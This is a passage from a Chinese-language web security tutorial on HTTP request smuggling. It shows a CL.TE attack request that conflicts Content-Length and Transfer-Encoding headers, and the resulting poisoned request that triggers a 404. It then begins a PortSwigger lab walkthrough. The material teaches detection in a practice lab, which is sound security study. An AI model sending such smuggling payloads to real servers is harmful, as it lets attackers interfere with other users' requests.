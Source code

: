 该请求通常会收到状态代码为200的HTTP响应，其中包含一些搜索结果，干扰这个请求所需的攻击请求取决于存在的请求走私的变体:CL.TE vs TE.CL，这里我们以CL.TE为例：

```plain
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

如果攻击成功，那么后端服务器会将该请求的最后两行视为接收到的下一个请求，这将导致后续的"正常"请求如下所示，由于这个请求现在包含一个无效的URL，服务器将用状态代码404响应，表明攻击请求确实干扰了：

```plain
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

下面我们通过一个靶场来介绍具体的fuzzing：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)  
测试流程：  
Step 1：访问上述靶场地址并点击"ACCESS THELAB"进入靶场

[![](assets/1704418275-1a32c04ec66ffd2d7b85c04e436c2e9f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154617-2da97c7e-aa0c-1.png)
